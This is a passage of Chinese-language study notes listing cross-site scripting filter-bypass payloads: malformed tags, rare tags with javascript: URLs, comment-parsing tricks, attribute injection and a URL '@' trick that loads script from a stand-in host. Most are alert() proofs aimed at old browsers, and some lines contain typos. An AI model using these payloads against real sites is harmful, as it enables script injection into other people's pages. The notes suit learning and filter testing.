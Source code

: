         ```html
        1. <? foo="><script>alert(1111)</script>">
        2. <! foo="><script>alert(1111)</script>">
        3. </  foo="><script>alert(1111)</script>"># 前三种再firefox和webkit内核中有效
        4. <% foo="%><script>alert(1111)</script>> #IE中有效
        ```
        
3. 可以再HTML代码中插入xml代码、svg代码、和未知标签来瞒过过滤器
    1. `<xss style="xss:expression(alert(1111))">` #通过该方式再IE中执行插入的代码，可以瞒过过滤器
4. 使用少见的标签绕过过滤器
    
    ```html
    1. <isindex action="javascript:alert(1111)">
    2. <BGSOUND SRC="javascript:alert(111)">
    3. <meta http-wquiv="refresh" content="0;javascript:alert(111)">
    ```
    
5. 通过分析过滤器的缺陷构造可以绕过的语句
    1. 如果代码中过滤注释的语句是这样的`<!—.*—>`则可以构造这样的语句`<!—aaa <!—bbb—> ccc—>ddd` 这样ccc就被暴露出来了
    2. 如果代码中对注释没有做过滤则可以构造如下的语句 `<!—<a href="—><img src=x onerror=alert(111)//">test</a>,`对过滤器来书注释是不存在的，那么过滤器会认为上述语句为一个a正常的a标签，但对浏览器来说，上述则是一个img标签。
6. 针对IE浏览器的特殊语句
    
    ![](9bc82c060f205c9654462f96a831bb4.jpg)
    

**属性中的注入**

1. 属性值大小写不敏感、引号不敏感，IE中可以给使用`
2. 标签与属性、属性名与等号、等号与属性值之间可以用空格、换行符、回车符、过着tab等替代
3. 可以再属性的头部与尾部加上ascii中的控制字符 如&#32
4. js中一个函数可以在另一个函数中执行
    
    ```html
    1. <a href="#" onclick="do_some_func('',alert(111),'')">
    2. <a href=# onclick="do_some_func('',functiong(){alert(11);alert(22)},'')"> #执行多条语句应定义匿名函数
    ```
    
5. 资源类属性后面可以添加伪协议，当然该功能现如今已经被屏蔽了，不过IE6是支持的，不过`<iframe>`中的伪协议并没有被屏蔽
6. 可以利用url的@属性绕过
    
    如要求输入url地址如下，src=http://www.baidu.com，其中rul部分是我们需要构造payload的地方，如果该处的特殊字符被过滤掉了，我们则可以通过外部引入js代码的形式绕过，如
    
    src=http://www.baidu.com@www.hack.com/inject.js 这样@前面的内容就被当作了用户名。
    
7. 支持伪协议的不常见标签属性
    
    ```html
    <img dybsrc="javascript:alert('xss')">(IE6)
    <img lowsrc="javascript:alert('xss')">(IE6)
    <isindex action="javascript:alert('xss')">
    <input type="img" src="javascript:alert('xss');">
    ```
    

